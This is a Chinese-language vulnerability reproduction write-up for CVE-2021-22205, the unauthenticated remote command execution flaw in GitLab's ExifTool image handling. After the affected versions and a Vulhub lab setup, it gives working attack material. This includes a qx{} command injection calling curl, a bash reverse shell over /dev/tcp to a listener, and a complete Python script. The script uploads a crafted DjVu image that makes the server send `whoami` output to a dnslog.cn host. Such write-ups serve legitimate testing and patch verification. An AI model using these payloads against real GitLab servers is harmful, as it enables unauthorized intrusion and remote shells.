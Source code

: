 # CVE-2021-22205：GitLab命令执行漏洞
## 漏洞概述

2021年4⽉15⽇，GitLab官方发布安全补丁更新修复了GitLab命令执行漏洞（CVE-2021- 22205）。由于GitLab中的ExifTool没有对传⼊的图像文件的扩展名进行正确处理，攻击者通过 上传特制的恶意图片，可以在目标服务器上执行任意命令，且发现由于GitLab存在未授权的端点，导致该漏洞在无需进行身份验证的情况下即可进行利用，社区版(CE)和企业版(EE)皆受影响，CVSS评分为9.9。

 GitLab 是一个基于 Web 的 DevOps 生命周期工具，它提供了一个 Git 存储库管理器，可提供 wiki、问题跟踪以及持续集成和部署管道功能。

在 GitLab CE/EE 中发现了一个问题，影响了从 11.9 开始的版本。GitLab 没有正确验证传递给文件解析器的图像文件，这导致了未经身份验证的远程命令执行。

## 漏洞影响
11.9 <= Gitlab CE/EE < 13.8.8
13.9 <= Gitlab CE/EE < 13.9.6
13.10 <= Gitlab CE/EE < 13.10.3

## 漏洞环境
Vulhub:~/vulhub/gitlab/CVE-2021-22205

`docker-compose up -d`

## 漏洞复现
验证POC，需可连通的dnslog.cn
### 命令执行
开启一个服务器
`python3 -m http.server 80`

`command = 'curl http://x.x.x.x'
. qx{"+  command +"} .`
### 反弹shell
`reverseShell = "echo '/bin/bash -i >& /dev/tcp/{listenIp}/{listenPort} 0>&1' > /tmp/shell.sh && chmod 777 /tmp/shell.sh && /bin/bash /tmp/shell.sh"
. qx{"+  reverseShell +"} .
`
### Dnslog
```python
'''
只用于验证CVE-2021-22205，不需bs4
Uasges：python cve-2021-22205.py -u http://xx.xx.xx.xx
'''
import requests,argparse,re

def check(target_url):
	session = requests.Session()
	flag = 'Failed to process image'
	data = "\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.jpg\"\r\nContent-Type: image/jpeg\r\n\r\nAT&TFORM\x00\x00\x03\xafDJVMDIRM\x00\x00\x00.\x81\x00\x02\x00\x00\x00F\x00\x00\x00\xac\xff\xff\xde\xbf\x99 !\xc8\x91N\xeb\x0c\x07\x1f\xd2\xda\x88\xe8k\xe6D\x0f,q\x02\xeeI\xd3n\x95\xbd\xa2\xc3\"?FORM\x00\x00\x00^DJVUINFO\x00\x00\x00\n\x00\x08\x00\x08\x18\x00d\x00\x16\x00INCL\x00\x00\x00\x0fshared_anno.iff\x00BG44\x00\x00\x00\x11\x00J\x01\x02\x00\x08\x00\x08\x8a\xe6\xe1\xb17\xd9*\x89\x00BG44\x00\x00\x00\x04\x01\x0f\xf9\x9fBG44\x00\x00\x00\x02\x02\nFORM\x00\x00\x03\x07DJVIANTa\x00\x00\x01P(metadata\n\t(Copyright \"\\\n\" . qx{curl `whoami`.2oi2n4.dnslog.cn} . \\\n\" b \") )                                                                     \n\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5--\r\n\r\n"

	p = '<meta name="csrf-token" content="(.*)" />'

	try:
		req1 = session.get(target_url.strip("/") + "/users/sign_in", verify=False)
		token = re.search(p,req1.text).group(1)

		headers = {
    		"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36",
			"Connection": "close",
			"Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5",
			"X-CSRF-Token": f"{token}", "Accept-Encoding": "gzip, deflate"}

		req2 = session.post(target_url.strip("/") + "/uploads/user", data=data, headers=headers, verify=False)

		if flag in req2.text:
			print("[+] 目标 {} 存在漏洞".format(target_url))
		else:
			print("[-] 目标 {} 不存在漏洞".format(target_url))
	except Exception as e:
		print(e)

def main():
    parser = argparse.ArgumentParser(description='GitLab < 13.10.3 RCE')
    parser.add_argument('-u', '--url', type=str, help=' 目标URL ')

    args = parser.parse_args()

    target_url   = args.url

    check(target_url)

if __name__ == '__main__':
    main()
```

## 参考文章
https://github.com/Al1ex/CVE-2021-22205
https://zhuanlan.zhihu.com/p/439476986
